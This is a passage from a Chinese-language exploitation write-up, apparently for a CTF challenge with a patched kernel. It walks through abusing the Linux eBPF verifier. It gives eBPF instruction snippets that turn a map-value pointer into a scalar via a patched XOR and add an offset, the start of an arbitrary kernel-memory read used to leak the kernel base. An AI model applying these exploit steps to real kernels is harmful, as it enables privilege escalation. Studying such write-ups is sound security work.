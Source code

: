 可以看到，从 0～7，与我们分析的差不多。

 

从 8～14 则是 `BPF_FUNC_map_lookup_elem` 具体做的操作。

 

comments 中也给出了一个简短的介绍：

```
u64 bpf_map_lookup_elem(u64 r1, u64 r2, u64 r3, u64 r4, u64 r5)
 
    {
        struct bpf_map *map = (struct bpf_map *) (unsigned long) r1;
        void *key = (void *) (unsigned long) r2;
        void *value;
 
        here kernel can access 'key' and 'map' pointers safely, knowing that
        [key, key + map->key_size) bytes are valid and were initialized on
        the stack of eBPF program.
    }

```

需要注意的是，在 BPF helper func 中，BPF 程序需要返回的是 value 的指针，而用户态发起的 bpf() 系统调用需要返回的是 value 的值。

 

当程序成功执行之后，**r0 的类型为 PTR_TO_MAP_VALUE** ，**r0 的值为成功查询到的对应的 <u> 地址 </u>**。

### Step 2 (Trigger the Vuln,Leak kernel base)

**在这一部分，我们需要利用 eBPF 虚拟机的漏洞，利用他的指令编写可以任意内存读的原语。**

 

此时我们已经有了对应类型的 r0，我们通过 mov 指令，将对应的类型与值也赋值给 r1、r2、r3 寄存器。

```
BPF_MOV64_REG(BPF_REG_1, BPF_REG_0),
  BPF_MOV64_REG(BPF_REG_2, BPF_REG_0),
  BPF_MOV64_REG(BPF_REG_3, BPF_REG_0),

```

然后使用 patch 后的 XOR 函数将他们的类型降级为标量，此时他们的值仍然是对应的地址。

```
BPF_ALU64_IMM(BPF_XOR, BPF_REG_2, 0),
  BPF_ALU64_IMM(BPF_XOR, BPF_REG_1, 0),

```

接下来有一个技巧，我们可以通过看 r2 的值来确定我们要准备 load addr 的 addr 应该是多少

```
BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 0x21ef0+0x18),
BPF_STX_MEM(BPF_DW, BPF_REG_3,  BPF_REG_2, 0),        //本句可用于调试，因为此时r3指向map中的那一项的地址，我们将r2的内容放到r3指向的位置，最后再用lookup查找对应的key=0，即可获得此时r2的值。

```
